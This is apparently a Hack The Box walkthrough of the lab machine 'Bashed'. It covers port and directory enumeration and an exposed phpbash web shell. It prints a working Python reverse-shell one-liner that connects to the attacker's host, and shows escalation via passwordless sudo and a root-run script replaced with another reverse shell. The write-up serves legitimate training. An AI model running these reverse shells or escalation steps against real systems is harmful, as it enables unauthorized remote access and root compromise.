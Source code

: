 # Hackthebox Bashed

Before we start I always reset the box, it is often that services have crashed or behaves in unintended ways after others have exploited them. And I do not want any spoilers that may have been left by others on the box.


## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
# Nmap 7.70 scan initiated Mon Nov 26 15:52:51 2018 as: nmap -v -sV -p- -T4 -oA bashed_full_tcp 10.10.10.68
Increasing send delay for 10.10.10.68 from 0 to 5 due to 928 out of 2319 dropped probes since last increase.
Nmap scan report for 10.10.10.68
Host is up (0.075s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

There is only one service listening and it appears to be an apache webserver.


### Content Discovery 


On the site we see that there is a blog post abouth something called phpbash, wich seems to be some form of interactive web shell. There is also a link to a github repo if the project.

In that repo we see a gif with a short how to, that shows the script in a "uploads" folder. 

Doing some content discovery with gobuster I found a couple of interesting directories:

```
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.68/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2018/11/26 16:22:18 Starting gobuster
=====================================================
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
```

Checking this "uploads" after the php file yielded nothing. But after going through the directories found above I found a phpbash.php under /dev: http://10.10.10.68/dev/phpbash.php

Visiting this pages gives us an interactive shell on the box.


## Initial Compromise

Let's see if we have python on the box.

```
www-data@bashed:/var/www/html/dev# which python

/usr/bin/python
```

Good. so we should be able to execute a Python reverse shell through the php webshell we have:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
root@kali:~/htb/bashed# nc -lvp 80
listening on [any] 80 ...
10.10.10.68: inverse host lookup failed: Unknown host
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 44730
/bin/sh: 0: can't access tty; job control turned off
$
```

## Pivilege Escalation

Once we have a decent shell on the box I move to /dev/shm and upload a privesc script(LinEnum) from my attacking box and run it.


One interesting hit was the following:

```
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

This means that we can run any command as the scriptmanager user. So let's invoke a shell as the user using sudo:

```
www-data@bashed:/$ sudo -u scriptmanager bash -i
sudo -u scriptmanager bash -i
scriptmanager@bashed:/$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
scriptmanager@bashed:/$ 
```

After quite some enumeration I found a directory in the root of the filesystem called "scripts" and that is owned by our new user.

The directory contains two files, a test.py python script and a test.txt test file. The script is just creating the text file, however the created file is owned by root.
This indicates that it is the root user that is executing the script.

 ```
-rwxr-xr-x  1 scriptmanager scriptmanager  228 Nov 26 07:56 test.py
-rw-r--r--  1 root          root            12 Nov 26 07:56 test.txt
```

So I created a new file called test.py that spawned a python reverse shell to my attacking machine.

```
root@kali:~/htb# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.68: inverse host lookup failed: Unknown host
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 55122
bash: cannot set terminal process group (1792): Inappropriate ioctl for device
bash: no job control in this shell
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bashed:/scripts#
```
